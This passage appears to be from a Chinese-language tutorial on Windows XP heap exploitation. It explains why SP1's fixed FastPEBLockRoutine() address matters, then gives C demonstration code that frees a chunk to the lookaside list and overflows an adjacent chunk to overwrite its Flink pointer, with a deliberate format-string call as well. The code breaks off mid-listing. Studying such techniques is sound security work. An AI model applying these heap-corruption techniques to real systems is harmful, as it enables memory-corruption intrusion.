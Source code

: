 ## 0x08 为什么非要 XP SP1 才能运行以上代码

* * *

因为 SP1 里面 FastPEBLockRoutine()的地址是固定的，而 SP2 以后版本会随机

## 0x09 我就是要在 XP SP3 下跑代码，我不想下载 SP1

* * *

那就用如下代码吧，不过就没法 FastPEBLockRoutine()随意 call 了

```
/*
        Overwriting a chunk on the lookaside example
*/
#include <stdio.h>
#include <windows.h>

int main(int argc,char *argv[])
{
        char str[]="\nHello123456789213456789\n";

        char *a,*b,*c;
        long *hHeap;
        char buf[10];

        printf("----------------------------\n");
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        printf("%x\n",str);
        printf(str);
        memcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x64\xff\x12\x00",28);
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");0x71ac4050

```